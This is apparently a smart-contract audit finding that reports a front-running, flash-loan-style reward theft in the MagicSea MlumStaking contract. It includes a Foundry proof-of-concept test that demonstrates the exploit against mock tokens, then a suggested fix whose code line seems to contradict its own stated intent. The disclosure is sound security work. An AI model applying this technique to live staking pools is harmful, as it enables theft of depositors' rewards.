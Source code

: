 Spicy Lilac Buffalo

High

# pool manipulation with flash loan attack

## Summary
In the contract https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol If there are no reward tokens in the pool, then when adding them to the pool, using a flash loan attack and front run attack, the attacker can manipulate the pool in such a way as to take away most of the reward tokens
## Vulnerability Detail
Several staking token positions have been added to the pool, with lockDuration 365 days and 1 ether staking tokens. having anticipated the transaction of adding a reward token in the mempool, it can create a position with a large value and a lockDuration of 0 seconds, and then remove the position 
 take your profit
## Impact
The attacker will take most of the reward tokens
## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L354-L390
## Proof of Concept 
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

import "forge-std/Test.sol";

import "openzeppelin-contracts-upgradeable/access/OwnableUpgradeable.sol";
import "../src/transparent/TransparentUpgradeableProxy2Step.sol";

import "openzeppelin/token/ERC721/ERC721.sol";
import "openzeppelin/token/ERC20/ERC20.sol";

import "../src/MlumStaking.sol";

import {ERC20Mock} from "./mocks/ERC20.sol";

contract MlumStakingTest is Test {
    address payable immutable DEV = payable(makeAddr("dev"));
    address payable immutable ALICE = payable(makeAddr("alice"));
    address payable immutable BOB = payable(makeAddr("bob"));
    address payable immutable USER = payable(makeAddr("USER"));

    IMlumStaking private _pool;

    ERC20Mock private _stakingToken;
    ERC20Mock private _rewardToken;

    function setUp() public {
        vm.prank(DEV);
        _stakingToken = new ERC20Mock("MagicLum", "MLUM", 18);

        vm.prank(DEV);
        _rewardToken = new ERC20Mock("USDT", "USDT", 6);

        vm.prank(DEV);

        address _poolImpl = address(new MlumStaking(_stakingToken, _rewardToken));

        _pool = MlumStaking(
            address(
                new TransparentUpgradeableProxy2Step(
                    _poolImpl, ProxyAdmin2Step(address(1)), abi.encodeWithSelector(MlumStaking.initialize.selector, DEV)
                )
            )
        );
    }
    function testAPositionBigAmountTWAP() public {
        _stakingToken.mint(ALICE, 200 ether);
        _stakingToken.mint(BOB, 2 ether);
        _stakingToken.mint(USER, 2 ether);
        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 4 ether);
        _pool.createPosition(1 ether, 365 days);
        vm.stopPrank();
        vm.startPrank(USER);
        _stakingToken.approve(address(_pool), 4 ether);
        _pool.createPosition(1 ether, 365 days);
        vm.stopPrank();
        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 200 ether);
        _pool.createPosition(100 ether, 0 seconds);
        vm.stopPrank();
        _rewardToken.mint(address(_pool), 2 ether);
        MlumStaking.StakingPosition memory position = _pool.getStakingPosition(1);
        uint256 alicAmount = _pool.pendingRewards(3);
        vm.startPrank(ALICE);
        _pool.withdrawFromPosition(3, 100 ether);
        vm.stopPrank();
        uint256 rewardBalanceAlic = _rewardToken.balanceOf(ALICE);
        uint256 rewardBalance = _rewardToken.balanceOf(address(_pool));
        uint256 stakingBalance = _stakingToken.balanceOf(ALICE);
        position = _pool.getStakingPosition(1);
        uint256 bobAmount = _pool.pendingRewards(1);
        uint256 userAmount = _pool.pendingRewards(2);
        console2.log(bobAmount, "pending BOB");
        console2.log(alicAmount, "pending Alice");
        console2.log(userAmount, "pending USER");
        console2.log(rewardBalanceAlic, "balance reward token Alice");
        console2.log(rewardBalance, "balance reward token pool");
        console2.log(stakingBalance, "balance staking token pool");
    }
}


```
![2024-07-11_13-18-04](https://github.com/sherlock-audit/2024-06-magicsea-Patreeciy/assets/171034040/b8ea9d38-f292-4332-adaa-b602ffc7904e)

## Tool used

Manual Review

## Recommendation
add time management before withdrawal of funds, and distribution of reward token, only at the end of lockDuration
```require(lockDuration == 0, "locks disabled");```  all time not only ```if (isUnlocked()) ```
